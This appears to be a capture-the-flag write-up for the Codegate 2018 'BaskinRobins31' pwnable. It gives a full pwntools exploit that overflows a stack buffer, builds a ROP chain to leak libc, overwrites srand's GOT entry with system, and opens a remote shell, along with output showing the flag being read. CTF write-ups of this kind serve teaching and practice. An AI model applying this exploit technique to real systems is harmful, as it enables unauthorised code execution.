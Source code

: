 # Codegate 2018 Prequal Pwnable BaskinRobins31

## Overview

```
BaskinRobins31 - 217pts (Pwn)
nc ch41l3ng3s.codegate.kr 3131
Solve 30
```

[Download](https://s3.ap-northeast-2.amazonaws.com/codegate2018/4b9a5f57118bcfb6db1d0991af9e4159)

## Solve

### Analysis

The vulnerability is in the `your_turn` function.

![source](source.png)

### Code

```python
from pwn import *

context.arch = "amd64"
# context.log_level = "DEBUG"

e = ELF("./BaskinRobins31")

isRemote = True

if isRemote:
    p = remote("ch41l3ng3s.codegate.kr", 3131)
else:
    p = process("./BaskinRobins31")
    attach(p, "b *0x0000000000400979\nc")

    raw_input("wait..")

p.recvuntil("### The one that take the last match win ###\n")

read_got = 0x0
pppr = next(e.search(asm("pop rdi; pop rsi; pop rdx; ret")))
pr = next(e.search(asm("pop rdi; ret")))

payload = ""

payload += "4\x00" + "A"*0xB6

payload += flat(pppr, 0x0, e.bss(), 0x8, e.plt["read"])
payload += flat(pr, e.got["puts"], e.plt["puts"])
payload += flat(pppr, 0x0, e.got["srand"], 0x8, e.plt["read"])
payload += flat(pr, e.bss(), e.plt["srand"])

p.sendlineafter("? (1-3)\n", payload)

p.recvuntil("rules...:( \n")

p.send("/bin/sh\x00")

recv = p.recv()[:-1]
puts_got = u64(recv + "\x00"*(8-len(recv)))
print("[*] puts_got is " + hex(puts_got))

# libc6_2.23-0ubuntu9_amd64
p.send(p64(puts_got - 0x6f690 + 0x45390))

p.interactive()
```

### Output

```
shgroup@ubuntu:/mnt/hgfs/Writeup/ctf/codegate/2018-Prequal/Pwnable/BaskinRobins31$ python solve.py 
[*] '/mnt/hgfs/Writeup/ctf/codegate/2018-Prequal/Pwnable/BaskinRobins31/BaskinRobins31'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to ch41l3ng3s.codegate.kr on port 3131: Done
[*] puts_got is 0x7f588403a690
[*] Switching to interactive mode
$ ls
BaskinRobins31
flag
$ cat flag
flag{The Korean name of "Puss in boots" is "My mom is an alien"}
$  
```

### Flag

`The Korean name of "Puss in boots" is "My mom is an alien"`